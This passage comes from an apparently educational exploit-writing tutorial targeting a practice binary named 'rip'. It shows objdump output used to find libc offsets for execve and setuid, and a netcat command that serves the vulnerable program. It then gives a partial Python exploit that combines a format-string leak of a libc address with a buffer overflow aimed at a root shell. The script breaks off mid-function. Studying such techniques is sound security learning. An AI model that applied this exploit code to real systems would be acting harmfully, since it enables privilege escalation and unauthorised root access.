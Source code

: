 ```
   d6bab:	48 8d 3d 67 b0 08 00 	lea    rdi,[rip+0x8b067]        # 161c19 <_libc_intl_domainname@@GLIBC_2.2.5+0x159>
   d6bb2:	48 8b 10             	mov    rdx,QWORD PTR [rax]
   d6bb5:	e8 86 1a fe ff       	call   b8640 <execve@@GLIBC_2.2.5>
```

I will use the `0xd6b9f` offset to call it. In the script, all we gotta do is
add the `libc` base address ot the  offset.

To get the `setuid`, use `objdump -M intel -D rip | grep setuid`:

```
00000000000b8fa0 <setuid@@GLIBC_2.2.5>:
   b8fa8:	75 2e                	jne    b8fd8 <setuid@@GLIBC_2.2.5+0x38>
   b8fb9:	77 05                	ja     b8fc0 <setuid@@GLIBC_2.2.5+0x20>
```

And we got the offset: `0xb8fa0`.

All we need to do now is put it all together in a script.

### Putting In All Together

I decided to run the victim program in a server with `netcat`. To get the server
running you just need to do `sudo busybox nc -llp 65000 -e "./rip"` (sudo is only
necessary if you want to get a root shell).

obs.: be aware that sometimes there are more than one version of `netcat` in the system.
My system comes with `busybox netcat`, `netcat.openbsd` and `netcat.traditional`. Check the
`--help` option in the one you are using to figure out its options.

obs2.: be aware that some `netcat` version don't spawn persistent servers (if you stop talking
to the server it doesn't close).

The exploit itself uses `telnetlib` to send and receive data and hand the control of the connection
directly to us once we get a shell:

obs.: We use telnet only at the end because it doubles the `0xff` byte when sending and removes one
when receiving.

```
import struct
from telnetlib import Telnet
import socket

pack = lambda x: struct.pack("Q", x)

def leaker_payload():

    leak_payload = b'%27$p' # leak __libc_start_main+241
    leak_payload += b'A' * (0x80 - len(leak_payload)) # fill buffer
    leak_payload += b'BBBBBBBB' # rbp
    leak_payload += pack(0x4006c9) # return to vuln (password_is_correct)

    return leak_payload

def get_libc_base(__libc_start_main_241):

    __libc_start_main_241 = int(__libc_start_main_241, 16)
    libc_base = __libc_start_main_241 - 241 - 0x201f0

    return libc_base

def root_shell(libc_base):

    libc_base = int(libc_base)
    execve = pack(libc_base + 0xd6b9f) # execve offset
    setuid = pack(libc_base + 0xb8fa0) # setuid offset
```